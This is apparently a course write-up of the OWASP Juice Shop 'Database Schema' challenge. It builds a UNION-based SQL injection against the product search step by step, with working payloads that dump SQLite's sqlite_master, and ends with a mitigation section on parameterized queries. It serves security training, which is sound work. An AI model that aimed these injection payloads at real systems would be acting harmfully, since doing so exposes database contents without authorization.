



# Database Schema

A 3-star **Injection** challenge in the OWASP Juice Shop. The goal is to leak the
complete database schema through an SQL injection in the product search. By
appending a `UNION SELECT` to the search query, the full list of `CREATE TABLE`
statements is read from SQLite's internal `sqlite_master` table.

:::warning Educational purpose only
This documentation was produced for training during a DevSecOps course. All
attacks were performed against a local OWASP Juice Shop instance in a personal
VM. Never apply these techniques to systems you are not authorized to test.
:::

## Table of Contents

- [Overview](#overview)
- [The Vulnerability](#the-vulnerability)
- [Reconnaissance](#reconnaissance)
- [Exploitation](#exploitation)
- [Impact](#impact)
- [Mitigation](#mitigation)
- [References](#references)

## Overview

| Property | Value |
| --- | --- |
| Challenge | Database Schema |
| Category | Injection (SQL Injection) |
| Difficulty | ⭐⭐⭐ |
| Technique | `UNION`-based SQL injection |
| Video | [Watch on Loom](https://www.loom.com/share/ee6c1a8be99848899a60bd4649dcef9f) |

## The Vulnerability

The product search sends the user's search term to a REST endpoint and embeds it
**directly into an SQL query as a string**:

```sql
SELECT * FROM Products
WHERE ((name LIKE '%<search term>%' OR description LIKE '%<search term>%')
AND deletedAt IS NULL)
```

Because the input is concatenated into the query text, the database can no longer
tell where the **command** ends and the **data** begins. Any SQL the attacker
types into the search term is parsed and executed as part of the query. This is a
classic **SQL injection**.

## Reconnaissance

Before attacking, two facts were established:

1. **The Juice Shop uses SQLite.** This is confirmed in the official Juice Shop
   documentation and project setup.
2. **SQLite exposes its own schema.** SQLite stores every table, index and
   trigger in an internal table named `sqlite_master`. Its `sql` column contains
   the original `CREATE` statement for each object. Reading that column reveals
   the entire schema.

The injectable endpoint was identified with the browser **Developer Tools
(F12) → Network tab**: performing a normal search shows a request to

```
GET /rest/products/search?q=<search term>
```

Everything after `q=` is the search term that ends up in the SQL query.



## Exploitation

The payload was built up step by step, using the server's error messages (visible
in the raw JSON response) as feedback at each stage.

**1. Confirm the injection.** Appending a single quote breaks the string and
produces a SQL syntax error:

```
/rest/products/search?q=apple'
```

```
500 Error: SQLITE_ERROR: near "'%'": syntax error
```

The error proves the input is placed unescaped into the query.



**2. Comment out the trailing characters.** An SQL line comment (`--`) removes the
leftover `%'` and the rest of the original query. This now reports unbalanced
parentheses instead of a syntax error:

```
/rest/products/search?q=' -- 
```

```
500 Error: SQLITE_ERROR: incomplete input
```

**3. Balance the parentheses.** The original condition is wrapped in two opening
parentheses, which the comment removed. Adding two closing parentheses makes the
query valid again and returns HTTP 200:

```
/rest/products/search?q=')) -- 
```

**4. Determine the column count.** A `UNION` requires both SELECTs to return the
same number of columns. Counting up until the error disappears reveals that the
`Products` query returns **10 columns**:

```
/rest/products/search?q=')) UNION SELECT 1,2,3,4,5,6,7,8,9,10 -- 
```

**5. Read the schema.** Finally, one placeholder is replaced with the `sql`
column and the query is pointed at `sqlite_master`. A non-matching search term
(`qwertz`) keeps the real products out of the result, and `WHERE type='table'`
restricts the output to tables only (excluding indexes and triggers), so only
the table schema is returned:

```
/rest/products/search?q=qwertz')) UNION SELECT sql,2,3,4,5,6,7,8,9,10 FROM sqlite_master WHERE type='table' -- 
```

The response now contains the full list of `CREATE TABLE` statements — the
complete database schema. The challenge is marked as solved on the Score Board.



## Impact

Leaking the schema is harmful on its own, and it is only the first step. Once an
attacker knows the table and column names, the same injection can be aimed at
sensitive tables. Replacing `sqlite_master` with the `Users` table, for example,
would expose email addresses and password hashes. SQL injection can lead to full
disclosure, modification or deletion of the database, which is why it remains in
the OWASP Top 10.

## Mitigation

The root cause is that **command and data are mixed** in the same query string.
The fix is to separate them using **prepared statements** with **parameterized
queries**. A placeholder (`?`) stands in for the value, and the value is passed
separately:

```sql
SELECT * FROM Products WHERE name LIKE ?
```

The database first compiles the query structure, then binds the supplied value
into the placeholder. From that point the value is always treated as **data** and
can never be parsed as a command — even an input like `') UNION SELECT ...` is
handled as a harmless (if unusual) search term.

Additional defense-in-depth measures:

- Validate and constrain user input.
- Do not expose raw database error messages to the client (the verbose
  `SQLITE_ERROR` responses made the attack much easier).
- Apply least-privilege permissions to the database account.

## References

- [OWASP Juice Shop — Codebase 101, Storage Tier (states that SQLite is the main database)](https://pwning.owasp-juice.shop/companion-guide/latest/part3/codebase.html#_storage_tier)
- [OWASP Juice Shop — Architecture overview](https://help.owasp-juice.shop/introduction/architecture.html)
- [OWASP — SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- [OWASP — SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [SQLite — The `sqlite_master` schema table](https://www.sqlite.org/schematab.html)
